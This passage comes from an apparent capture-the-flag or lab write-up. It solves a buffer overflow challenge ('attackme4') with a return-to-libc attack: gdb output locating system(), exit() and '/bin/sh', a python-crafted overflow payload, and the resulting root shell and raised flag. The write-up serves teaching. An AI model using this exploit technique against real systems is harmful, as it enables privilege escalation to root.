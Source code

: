 }
</code></pre>

<p>But are we? <br>
Note the length integrity check in method <code>brutus()</code></p>



<pre class="prettyprint"><code class="language-C hljs cpp"><span class="hljs-keyword">if</span> (<span class="hljs-built_in">strlen</span>(caesar) &gt; <span class="hljs-number">20</span>)
        {
                <span class="hljs-built_in">printf</span> (<span class="hljs-string">"Et tu, Brute?\n"</span>);
                <span class="hljs-keyword">return</span>;
        }</code></pre>

<p>Hmm, 20 bytes, so what about the buffer? <code>char buf[4]</code> tells us the buffer length is 4. <br>
So let’s do the math, 20 - 4 byte of buffer- 4 bytes of <code>$ebp</code> = 12 bytes. That’s way too much for a skilled hacker like you. Another <code>return-to-libc</code> looks really promising.  <br>
Use the previously introduced techniques to find the addresses of <code>system(), exit()</code>and <code>/bin/sh</code>. This actually never changes. </p>



<pre class="prettyprint"><code class=" hljs livecodeserver">(gdb) p <span class="hljs-keyword">system</span>
$<span class="hljs-number">1</span> = {&lt;<span class="hljs-keyword">text</span> <span class="hljs-built_in">variable</span>, no debug info&gt;} <span class="hljs-number">0xf7e4c840</span> &lt;<span class="hljs-keyword">system</span>&gt;
(gdb) p exit
$<span class="hljs-number">2</span> = {&lt;<span class="hljs-keyword">text</span> <span class="hljs-built_in">variable</span>, no debug info&gt;} <span class="hljs-number">0xf7e407f0</span> &lt;exit&gt;
(gdb) find &amp;<span class="hljs-keyword">system</span>,+<span class="hljs-number">9999999</span>,<span class="hljs-string">"/bin/sh"</span>
<span class="hljs-number">0xf7f6ed48</span>
warning: Unable <span class="hljs-built_in">to</span> access <span class="hljs-number">16000</span> <span class="hljs-keyword">bytes</span> <span class="hljs-operator">of</span> target memory <span class="hljs-keyword">at</span> <span class="hljs-number">0xf7fc8ad0</span>, halting search.
<span class="hljs-number">1</span> pattern found.</code></pre>

<p>Craft our payload.</p>

<pre class="prettyprint"><code class=" hljs tex">user@host:/c0re<span class="hljs-formula">$ /c0re/attackme4 $</span>(python -c 'print "<span class="hljs-command">\x</span>90"*8 + "<span class="hljs-command">\x</span>40<span class="hljs-command">\xc</span>8<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\xf</span>0<span class="hljs-command">\x</span>07<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\x</span>48<span class="hljs-command">\xed</span><span class="hljs-command">\xf</span>6<span class="hljs-command">\xf</span>7"')
Alea iacta est: 20
<span class="hljs-special">#</span> whoami
root
<span class="hljs-special">#</span> ./flagpole
Submitting flag...
+ FLAG RAISED! :D</code></pre>

<p>Damn, too easy. Your instructor needs get more creative. </p>